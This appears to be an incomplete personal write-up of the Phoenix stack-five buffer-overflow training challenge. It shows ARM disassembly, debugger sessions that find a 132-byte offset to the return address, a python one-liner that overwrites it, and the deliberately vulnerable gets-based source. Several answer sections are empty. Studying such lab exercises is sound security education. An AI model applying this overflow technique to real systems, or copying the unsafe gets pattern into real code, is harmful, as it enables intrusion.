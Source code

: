 # Phoenix Stack5
### Result
### Learning
This challenge started with a question:

> As opposed to executing an existing function in the binary, this time we’ll be introducing the concept of “shell code”, and being able to execute our own code.

You had to overwrite the return address and jump to self-written / downloaded `shellcode`.  Invoking your own `shellcode` was possible as `stack5.c` used `gets`.

### Calculate buffer to overflow
```
/ (fcn) sym.start_level 36
|           0x000104f0      80d04de2       sub sp, sp, 0x80   <-- space for local var
|           0x000104f4      84304be2       sub r3, fp, 0x84   <-- same as above
|           0x000104f8      0300a0e1       mov r0, r3                  ; char *s
|           0x000104fc      9dffffeb       bl sym.imp.gets             ; char *gets(char *s)
```
The bytes allocated when setting up the `start_level Stack` suggested a `128 buffer` and a `4 byte pointer`.  Looking at the disassembled function, I guessed the `4 byte pointer` was the actual reference to the buffer, as opposed to the `return char *` that was passed back to the caller with `gets`.

### Debugger Analysis
##### Verify the Buffer size
```
gef> b *start_level + 24      <-- // breakpoint on first instruction after gets()

gef> disas start_level
Dump of assembler code for function start_level:
   0x000104e8 <+0>:	push	{r11, lr}
   0x000104ec <+4>:	add	r11, sp, #4
   0x000104f0 <+8>:	sub	sp, sp, #128	; 0x80.      <-- re-affirm size of buffer
   0x000104f4 <+12>:	sub	r3, r11, #132	; 0x84
   0x000104f8 <+16>:	mov	r0, r3
   0x000104fc <+20>:	bl	0x10378 <gets@plt>
=> 0x00010500 <+24>:	nop			; (mov r0, r0)
   0x00010504 <+28>:	sub	sp, r11, #4
   0x00010508 <+32>:	pop	{r11, pc}
```
You could read the disassembled code to see the Char buffer size.
```
gef> p/u 0x80
$5 = 128
```
##### Return Address
```
gef> r < AAAA

$r11 : 0xfffefd74
$sp  : 0xfffefcf0

// You reached the same answer, regardless of whether you filled the 128-char Buffer
gef> p/u $fp - $sp      
$1 = 132
```
##### Return Address, a better way to find
```
gef> r < AAAA

gef> find $sp, +200,0x0001052c
0xfffefd74
1 pattern found.

gef> p/u 0xfffefd74 - 0xfffefcf0
$11 = 132

// if you didn't guess it, these addresses the stack pointer and the frame pointer:
$sp  : 0xfffefcf0
$r11 : 0xfffefd74
```
##### Overwrite the Return Address
```
gef> r <<< $(python -c 'print "A"*132 + "\x43\x43\x43\x43"')
```
##### Better answers

##### Run the code
```
$ ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
AAA
```  
##### Symbols
```
// cut down for brevity
[0x000103b4]> is~FUNC
072 0x000004e8 0x000104e8 GLOBAL   FUNC   36 start_level
079 0x0000050c 0x0001050c GLOBAL   FUNC   52 main
002 0x00000378 0x00010378 GLOBAL   FUNC   16 imp.gets
003 0x00000384 0x00010384 GLOBAL   FUNC   16 imp.puts
```
##### Seek and disassemble
```
```
##### Debugger

##### Answer


##### Source code
```
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
